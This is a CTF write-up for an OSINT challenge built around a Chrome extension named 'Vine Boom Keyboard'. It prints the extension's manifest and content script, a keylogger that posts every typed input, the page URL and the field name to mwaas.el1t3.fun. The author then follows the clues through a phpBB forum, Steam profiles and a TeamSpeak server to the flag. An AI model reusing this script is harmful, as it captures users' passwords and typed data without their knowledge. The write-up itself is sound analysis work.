## What are we working with?

This challenge we start with a `boom.crx`. With some research the `.crx` file extension corresponds for a Chrome Extension. There are [CRX Extractors](https://crxextractor.com/) online, uploading the file we get a `boom.zip` containing the source code.

## Foothold

Inside is a `content-script.js` and a `manifest.json`.

```json
{
  "manifest_version": 3,
  "name": "Vine Boom Keyboard",
  "version": "1.3.3.7",
  "description": "Add some fun to your typing experience!",
  "content_scripts": [
    {
      "js": [
        "content-script.js"
      ],
      "matches": [
        "http://*/*", "https://*/*"
      ],
      "run_at": "document_start"
    }
  ]
}
```

```js
let boom = new Audio("data:audio/wav;base64,<B64 CONTENT>");

window.fetch = async (...args) => {
    // this stupid extension is useless why wont it work anymore?????
    // TODO: find out who invented CORS

    // whatever let's just simulate it for now
    await new Promise(resolve => setTimeout(resolve, 2000));
    return {
        ok: false,
        status: 418,
        statusText: "I'm a teapot",
        json: async () => ({ success: true }),
        text: async () => "it worked great",
    };
};

const targetNode = document.documentElement

const config = {attributes: true, childList: true, subtree: true};

const callback = (mutationList, observer) => {
    for (const mutation of mutationList) {
        if (mutation.type === "childList" && mutation.addedNodes.length > 0) {
            mutation.addedNodes.forEach(node => {
                if (node.nodeName === "INPUT") {
                    node.addEventListener("input", (e) => {
                        boom.currentTime = 0;
                        boom.play();

                        fetch("https://mwaas.el1t3.fun/payload", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                value: e.target.value,
                                url: window.location.href,
                                ele: e.target.name,
                                user: "NAVI"
                            }),
                        });
                    });
                }
            });
        }
    }
};

// Create an observer instance linked to the callback function
const observer = new MutationObserver(callback);

// Start observing the target node for configured mutations
observer.observe(targetNode, config);
```

The initially interesting part is the URL `mwaas.el1t3.fun` which seems to be used to exfiltrate data (before CORS).

Visiting the domain has a sample page with a login:


Selecting 'Login' redirects to a SimpleSAMLphp login page:


If I replicate a sample request to the `/payload` endpoint we get the following response:
`Upload functionality has been disabled after the disappearance of CacheTheStamp3de`

This login page is under the 2nd level domain `el1t3.fun`: `https://el1t3.fun/simplesaml/module.php/core/loginuserpass?...`

Visiting the domain with no path is a phpBB forum (ah the early 2000s UI):


## Characters

Exploring the threads we can see there are a few users:
- `NAVI` (which we can see is the user in the Chrome extension)
- `CacheTheStamp3de` (presumably disappeared)
- `[myg0t] konata` (Outside of the CTF context, `myg0t` is seemingly a group that would join servers and blatantly cheat)
- `LOIC`
- `pootis`

From reading the threads they all seem to be cheaters in Counter-Strike 1.6 and play gun-game.

## Threads

There are a few interesting things from these threads:

`CacheTheStamp3de` seems to be setting up a CS server, in that is a webserver:


Visiting the URL we have directory listing!


The `maps/` folder is pretty uninteresting (just maps) but the parent folder has an interesting image `sfz_motd.jpg`:


There is an IP address for a TeamSpeak server! But we don't know the password, good to keep in mind though.

There is another thread from `NAVI` showing proof they don't cheat (which is absolute cinema):


The video isn't attached but is a very entertaining video of poor CS gameplay and the best of the best Linkin Park in WINAMP, bundled with Notepad typing for speech and HyperCam 2. Lol.

The interesting part is when the Console is opened, and we can see some Steam IDs:


## Steam

The two IDs link to Steam profiles for `NAVI` and `pootis` and can be converted to profile URLs with https://steamid.io:
- `NAVI`: `STEAM_0:0:936738840` -> https://steamcommunity.com/profiles/76561199833743408
- `pootis`: `STEAM_0:0:937385953` -> https://steamcommunity.com/profiles/76561199835037634


`NAVI`'s profile has a comment from [CacheTheStamp3de](https://steamcommunity.com/profiles/76561199834323082) but their profile is private.

`pootis` is friends with `[myg0t] konata` (https://steamcommunity.com/profiles/76561199834257966):


They are in a group which seems to line up with the acronym seen on the TeamSpeak server and in `NAVI`'s 'i'm not hacking' video: **Skid Force Zero**.

They are also friends with `LOIC`, but their profile is private.

The group has comments from the members on the forum! But we can find something particularly interesting from `CacheTheStamp3de`:


We can now connect to the TeamSpeak server!

## TeamSpeak

Inside the server we have no permissions, but we can see a description for the 'Gungame 24/7' channel!




Now here I got quite stuck, I couldn't figure out what to do. I looked at registering on the forum and spotted this:


That phrase we need is from TeamSpeak! We can now register an account!

## Forum Access

I register an account `sealldev` and we can now see a new 'Hacking' board!



The 'steal creds from noobs' thread has the flag!



Flag: `dam{we_wer3_the_skids_all_al0ng}`

## Further Reading & Memes

I incline you to read the part 2 to this challenge [l33t-benign](/writeups/25-damctf-l33t-benign) as it ties directly into this and is a great web challenge.

After the CTF there were some shenanigans on the TeamSpeak server...

Bad Apple was made using usernames, and it's beautiful...

<video controls>
  <source src="/badapple.mp4" type="video/mp4" />
</video>


